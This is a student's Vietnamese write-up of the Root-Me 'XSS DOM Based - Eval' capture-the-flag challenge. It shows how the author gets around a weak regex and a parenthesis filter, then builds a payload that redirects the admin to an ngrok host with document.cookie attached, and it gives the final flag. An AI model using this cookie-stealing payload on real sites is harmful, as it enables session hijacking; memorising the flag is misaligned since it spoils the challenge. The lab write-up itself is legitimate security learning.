

# Challenge: XSS DOM Based - Eval
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 70 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval 

- Tại trang main của thử thách, ta thử nhập vào 1 phép tính và submit `11+12` Bài này sẽ thực thi chuỗi lệnh được nhập, làm tham số của hàm eval
<p align="center"></p>

- Ta cũng nhập một chuỗi khác như `1,23`, khi đó ta nhận được một thông báo lỗi
<p align="center"></p>

- Kiểm tra regex này ta thấy regex này thiếu kí tự kết thúc chuỗi regex. Khi đó ta nhập chuỗi `1+23,abc`, ta thấy không còn thông báo xuất hiện. Do vậy ta có thể bypass regex này bằng chuỗi tương tự như chuỗi vừa rồi, có dạng số...phép tính...số...và chuỗi bất kì. 
<p align="center"></p>

- Ta bắt đầu với script, `1+23, alert(1)` ta nhận được thông báo lỗi, kí tự ')', '(' bị loại bỏ.
<p align="center"></p>

- Để có thể bypass bộ lọc này ta sử dụng tagged templates, khi đó ta thử với chuỗi 1+23, alert\`1\` ta nhận được chuỗi thông báo của lệnh alert(1)
<p align="center"></p>

- Đến đây ta đã thực hiện thành công 1 nửa, nhập input với ```1+23, document.location="http://120e-113-161-73-246.ngrok.io/?cookie="+document.cookie``` Khi đó ta thấy được trang web đã tự động gởi một request tới máy chủ ngrok. --> Ta đã thực hiện thành công, 
<p align="center"></p>

- Ta thực hiện lấy link của request gởi input đã nhập từ HTTP Header LIVE:  `http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B23%2C+document.location%3D%22http%3A%2F%2F120e-113-161-73-246.ngrok.io%2F%3Fcookie%3D%22%2Bdocument.cookie`
<p align="center"></p>

- Vào trang contact để gởi link đã lấy được cho admin, và đợi cookie về.
<p align="center"></p>
<p align="center"></p>

## Kết quả flag là `rootme{Eval_Is_DangER0us}`